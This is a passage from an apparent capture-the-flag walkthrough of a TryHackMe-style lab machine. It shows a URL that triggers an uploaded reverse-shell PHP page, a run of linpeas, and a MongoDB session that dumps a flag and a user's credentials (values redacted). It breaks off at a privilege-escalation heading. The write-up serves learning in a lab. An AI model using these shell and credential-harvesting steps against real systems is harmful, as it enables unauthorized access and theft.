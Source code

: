 ```HTTP
http://10.10.168.33/reverse-shell.php
```

<img id="image4" />

Once inside, I ran the `linpeas.sh` script to gather more details about the current user's permissions and capabilities.

<img id="image5" />

I noticed that the system was using a Mongo service on port `27017`. By accessing its table, I found the credentials for a user named `'stux'` and also discovered the `2nd flag`.

```sql
www-data@ubuntu:/$ mongo
MongoDB shell version: 2.6.10
connecting to: test
Welcome to the MongoDB shell.
For interactive help, type "help".
For more comprehensive documentation, see
        http://docs.mongodb.org/
Questions? Try the support group
        http://groups.google.com/group/mongodb-user
2023-07-21T02:11:57.954-0700 In File::open(), ::open for '' failed with errno:2 No such file or directory
> show dbs
admin         (empty)
local         0.078GB
sudousersbak  0.078GB
> use sudousersbak
switched to db sudousersbak
> show tables
flag
system.indexes
user
> db.flag.find()
{ "_id" : ObjectId("60a89f3aaadffb0ea68915fb"), "name" : "thm{REDACTED}" }
> 

> db.user.find()
{ "_id" : ObjectId("60a89d0caadffb0ea68915f9"), "name" : "REDACTED!123" }
{ "_id" : ObjectId("60a89dfbaadffb0ea68915fa"), "name" : "stux" }
> 
```

- [x] Compromise the machine and enumerate collections in the document database installed in the server. What is the flag in the database? {==**thm{REDACTED}**==}

Using stux's credentials, I logged in and found the `user.txt` flag in the home folder.

- [x] What is the user.txt flag? {==**thm{REDACTED}**==}

## <b>Privilege Escalation</b>
